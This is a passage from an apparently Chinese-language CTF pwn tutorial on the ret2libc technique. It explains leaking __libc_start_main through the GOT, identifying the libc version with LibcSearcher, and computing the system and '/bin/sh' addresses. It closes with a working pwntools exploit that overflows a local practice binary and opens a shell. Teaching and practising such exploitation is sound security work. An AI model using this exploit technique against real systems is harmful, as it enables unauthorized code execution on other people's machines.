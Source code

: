 那么我们如何得到 system 函数的地址呢？这里就主要利用了两个知识点：

- system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
- 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的12位并不会发生改变。而 libc 在github上有人进行收集，如下
  - https://github.com/niklasb/libc-database

所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system函数的地址。

那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。**当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。**

我们自然可以根据上面的步骤先得到 libc，之后在程序中查询偏移，然后再次获取 system 地址，但这样手工操作次数太多，有点麻烦，这里给出一个 libc 的利用工具，具体细节请参考 readme：

- https://github.com/lieanu/LibcSearcher

此外，在得到 libc 之后，其实 libc 中也是有 /bin/sh 字符串的，所以我们可以一起获得 /bin/sh 字符串的地址。

这里我们泄露 __libc_start_main 的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

- 泄露 __libc_start_main 地址
- 获取 libc 版本
- 获取 system 地址与 /bin/sh 的地址
- 再次执行源程序
- 触发栈溢出执行 system(‘/bin/sh’)

exp 如下：

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print("leak libc_start_main_got addr and return to main again")
payload = flat([b'A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter(b'Can you find it !?', payload)

print("get the related addr")
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print("get shell")
payload = flat([b'A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()

```
